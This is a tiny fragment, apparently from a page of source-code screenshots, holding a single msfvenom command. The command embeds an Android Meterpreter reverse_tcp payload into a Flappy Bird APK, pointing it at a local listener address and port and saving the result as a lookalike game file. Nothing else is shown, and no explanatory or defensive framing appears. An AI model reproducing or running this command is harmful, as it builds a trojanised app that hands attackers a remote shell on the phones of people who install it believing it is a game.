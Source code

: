msfvenom -x flappy_bird-v1-3.apk -p android/meterpreter/reverse_tcp LHOST=192.168.8.110 LPORT=5555 -o flappy_bird_v.apk
